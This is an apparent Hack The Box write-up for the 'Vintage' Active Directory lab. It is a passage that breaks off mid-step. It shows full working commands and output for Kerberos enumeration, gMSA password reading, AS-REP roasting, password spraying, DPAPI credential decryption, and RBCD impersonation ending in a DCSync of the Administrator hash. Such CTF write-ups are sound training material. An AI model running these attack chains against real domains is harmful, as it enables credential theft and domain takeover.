






# Before Starting 

```console
Me > 10.10.14.10
Target > 10.10.11.45
```
```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-01 15:30:06Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49708/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41032/tcp): CLEAN (Timeout)
|   Check 2 (port 37345/tcp): CLEAN (Timeout)
|   Check 3 (port 30888/udp): CLEAN (Timeout)
|   Check 4 (port 47073/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -46s
| smb2-time:
|   date: 2024-12-01T15:30:55
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;"> Machine Information.</p>

  <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;">As is common in real life Windows pentests, you will start the Vintage box with credentials for the following account: P.Rosa / Rosaisbest123</code></pre>
</div>

We are starting with theses creds ```P.Rosa;Rosaisbest123```

```bash
nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```
As we can see, NTLM authentication is disabled so we need to use kerberos authentication 

```bash
nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'  -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123
```
<div style="
  background-color: #0d1117;
  border: 1px solid #1f6feb;
  border-radius: 6px;
  padding: 16px;
  color: #c9d1d9;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: 600; color: #58a6ff;">
    <span style="margin-right: 6px;">ℹ️</span>Note
  </p>
  <p style="margin: 0 0 1em;">Config /etc/krb5.conf like this</p>

  <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;"># /etc/krb5.conf

[libdefaults]
        default_realm = VINTAGE.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        VINTAGE.HTB = {
                kdc = vintage.htb
                admin_server = vintage.htb
                default_admin = vintage.htb
        }
[domain_realm]
        .vintage.htb = VINTAGE.HTB</code></pre>
</div>

Let's do some basic enumeration :

```bash
nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'  -k --users

Administrator
Guest
krbtgt
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```
```bash
nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'  -k --shares

SMB         dc01.vintage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.vintage.htb 445    dc01             -----           -----------     ------
SMB         dc01.vintage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.vintage.htb 445    dc01             C$                              Default share
SMB         dc01.vintage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.vintage.htb 445    dc01             NETLOGON        READ            Logon server share
SMB         dc01.vintage.htb 445    dc01             SYSVOL          READ            Logon server share
```
```bash
nxc ldap dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'  -k --bloodhound --dns-server 10.10.11.45 --dns-tcp -c all
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Resolved collection methods: container, dcom, trusts, group, acl, localadmin, objectprops, session, psremote, rdp
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Using kerberos auth without ccache, getting TGT
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Done in 00M 05S
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Compressing output into /root/.nxc/logs/dc01.vintage.htb_dc01.vintage.htb_2025-04-28_163144_bloodhound.zip
```
We can also do an ```--rid-brute``` to check all users/computers

```bash
nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'  -k --rid-brute

SMB         dc01.vintage.htb 445    dc01             1107: VINTAGE\gMSA01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1108: VINTAGE\FS01$ (SidTypeUser)
```
## Abusing Pre-Windows 2000 Compatibility

Using **AD-Miner** for a different view on potential attack paths

```bash
AD-miner -u 'neo4j' -p 'exegol4thewin' -cf vintage
```



Using **pre2k** like this :

```bash
pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -save -inputfile users.txt

[16:50:07] INFO     Testing started at 2025-04-28 16:50:07
[16:50:07] INFO     Using 10 threads
[16:50:07] INFO     VALID CREDENTIALS: vintage.htb\FS01$:fs01
[16:50:07] INFO     Saving ticket in FS01$.ccache
```
We can retrieve the ccache of **FS01$** 

## Read Group Managed Service Accounts (GMSA) Password

Now if we check on bloodhound we can see this 



But first, what is **GMSA**

> A gMSA is a special type of service account introduced in Windows Server 2012. It's designed to run services and tasks automatically under a managed account without the need for manual password management.

- The password for a gMSA is complex, long, and automatically managed by Active Directory.
- No human ever needs to know the password — Windows systems retrieve it securely when needed.
- Domain Controllers automatically change the gMSA password periodically (by default every 30 days).
- Only authorized computers can retrieve the password to use the gMSA.

Retrieve the **GMSA01$ hash** like that 

```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3..78
msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```
Looking again on **bloodhound**



Now we can use **BloodyAD** again to add for example our initial user **P.Rosa**

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"GMSA01$" -hashes :'b3..78'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in GMSA01$.ccache

export KRB5CCNAME=GMSA01\$.ccache

nxc ldap dc01.vintage.htb --use-kcache
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\gMSA01$ from ccache
```
## GenericWrite Abuse

```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add groupMember 'servicemanagers' 'p.rosa'
[+] p.rosa added to servicemanagers
```


Now we have **GenericAll permissions** on three different **service accounts**

## ASREPRoasting

Knowing that these are **service accounts**, let's do some enumerations with **BloodyAD** again

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k get object 'svc_ark' --attr userAccountControl

distinguishedName: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```
```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k get object 'svc_ldap' --attr userAccountControl

distinguishedName: CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```
```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb -k get object 'svc_sql' --attr userAccountControl

distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```
As we can see here, no **DONT_REQ_PREAUTH** flag there, which means **Pre Authentication** is enabled and 

> ASREPRoasting is an Active Directory attack technique where an attacker abuses user accounts that do not require pre-authentication in Kerberos authentication.
In Kerberos, normally a user must prove their identity (with their password or a hash) before the Key Distribution Center (KDC) will issue a Ticket Granting Ticket (TGT).
But if a user account is configured with the setting "Do not require Kerberos preauthentication (DONT_REQ_PREAUTH)", an attacker can request an authentication blob from the domain controller without needing any password

Knowing that we have **GenericAll** on theses 3 accounts, we need to modify theses account and set **DONT_REQ_PREAUTH** as preparation for the **ASREPRoasting**

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac -f DONT_REQ_PREAUTH SVC_ARK

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK userAccountControl

bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac -f DONT_REQ_PREAUTH SVC_LDAP

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP userAccountControl

bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac -f DONT_REQ_PREAUTH SVC_SQL

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL userAccountControl
```
Now we can verify 

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k get object 'svc_ark' --attr userAccountControl

distinguishedName: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
```
Before doing **asreproasting**, let's go back to **svc_sql** which was marked as **disabled account**, we need to **enable** it

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k remove uac -f ACCOUNTDISABLE SVC_SQL
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```
Now, **roasting** 

```bash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile users.txt -dc-ip '10.10.11.45' vintage.htb/ -no-pass -k

hashcat -m 18200 -a 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc_sql@VINTAGE.HTB:f31b6253aeea38a8cbc9f85abab4009f$7fd332...0976:REDACTED
```


After a lot of enumeration and nothing, let's try to spray the password 

## Finally, PSRemote

```bash
nxc smb dc01.vintage.htb -u users.txt -p 'REDACTED' -k --continue-on-success

SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:REDACTED
```
```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"C.Neri":"REDACTED"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in C.Neri.ccache

export KRB5CCNAME=C.Neri.ccache

evil-winrm -i dc01.vintage.htb -r VINTAGE.HTB -u C.Neri

Evil-WinRM shell v3.6

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cat ../Desktop/user.txt
```


## DPAPI 

After a lotttttt of enumerations, i searched through DPAPI (Data Protection API)

>  It’s a Windows built-in service that allows applications to securely store sensitive data (like passwords, encryption keys, etc.) by encrypting and decrypting it automatically.

- Encryption keys are tied to the user's Windows login credentials.
- When a user logs in, Windows can decrypt the data without asking for another password.
- It’s widely used inside Windows itself (e.g., to protect credentials in browsers, Wi-Fi passwords, etc.).

There is an AV on the machine so we couldn't run **SharpDPAPI.exe** for example, so i do it manually by following [this article](https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary)

```powershell
*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials> ls -force


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6
```
```powershell
*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials> Get-ChildItem C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115
```
```powershell
*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> ls -force


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```
<div style="
  background-color: #1b1b1d;
  border: 1px solid #ff4c4c;
  border-radius: 8px;
  padding: 16px;
  color: #e0e0e0;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: bold; color: #ff4c4c; font-size: 1.1em;">
    ⚠️ Warning
  </p>
  <p style="margin: 0 0 1em;">I tried to download it with WinRM but it was not working.</p>

  <pre style="
    background-color: #2b2b2e;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #e0e0e0;">*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> download C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Downloading C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\C:Usersc.neriAppDataRoamingMicrosoftProtectS-1-5-21-4024337825-2033394866-2055507597-1115/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b to 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

Error: Download failed. Check filenames or paths</code></pre>
</div>

**Let's try with base64**

```powershell
PS C:\temp> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847'))

AgAAAAAAA...op6YwRfEighbU=

PS C:\temp> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b'))

AgAAAA...qUkALQ=

PS C:\temp> [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\users\c.neri\appdata\roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6'))

AQAAAKI...PMUzCyhkAA==
```
And base64 decode

```bash
echo "AgAAAAAA.../Hkop6YwRfEighbU=" | base64 -d >  4dbf04d8-529b-4b4c-b4ae-8e875e4fe847

echo "AgAAAAAAAAAAA...qUkALQ=" | base64 -d > 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

echo "AQAAAKI...CyhkAA==" | base64 -d > C4BB96844A5C9DD45D5B6A9859252BA6
```
Ok perfect, now i’ll use **impacket-dpapi**

```bash
dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -password REDACTED -sid S-1-5-21-4024337825-2033394866-2055507597-1115
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b212...1ecd44e525a
```
```bash
dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b...1ecd44e525a
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description :
Unknown     :
Username    : vintage\c.neri_adm
Unknown     : REDACTED
```
```bash
nxc smb dc01.vintage.htb -u c.neri_adm -p 'REDACTED' -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri_adm:REDACTED
```
## 2 ways to RBCD

If we look again on bloodhound, we can see this 





> The AllowedToAct attribute is given when the group is configured for resource based constrained delegation (RBCD)

[Check this](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)

Looks like a free win here

There is 2 ways to privesc : 

- RBCD with an Computer Account
- Add an SPN to RBCD

Let's start


### RBCD with an Computer Account

I just have to add **FS01$** (because this computer already have an SPN) in **Delegates Admins** and impersonate **DC01$**

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"c.neri_adm":"REDACTED"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in c.neri_adm.ccache

export KRB5CCNAME=c.neri_adm.ccacheé
bloodyAD -d vintage.htb -k --host dc01.vintage.htb -k add groupMember DelegatedAdmins 'fs01$'

[+] fs01$ added to DelegatedAdmins
```
Request a TGT again

```bash
pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -save -inputfile users.txt

[22:03:15] INFO     Saving ticket in FS01$.ccache

export KRB5CCNAME=FS01\$.ccache

getST.py -spn cifs/dc01.vintage.htb -impersonate 'DC01$' -k -no-pass vintage.htb/'fs01$'

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Impersonating DC01$
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in DC01$.ccache
```
And **DCSYNC**

```bash
export KRB5CCNAME=DC01\$.ccache

nxc smb dc01.vintage.htb --use-kcache --ntds --user Administrator
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\DC01$ from ccache
SMB         dc01.vintage.htb 445    dc01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         dc01.vintage.htb 445    dc01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.vintage.htb 445    dc01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:46..de
```
Ok it's cool but there is still another ways to **RBCD** 

### Add an SPN to RBCD

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"c.neri_adm":"REDACTED"

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in c.neri_adm.ccache

export KRB5CCNAME=c.neri_adm.ccache
```
Add **SVC_SQL** to **DELEGATEDADMINS** and request a ticket

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add groupMember 'DELEGATEDADMINS' 'SVC_SQL'

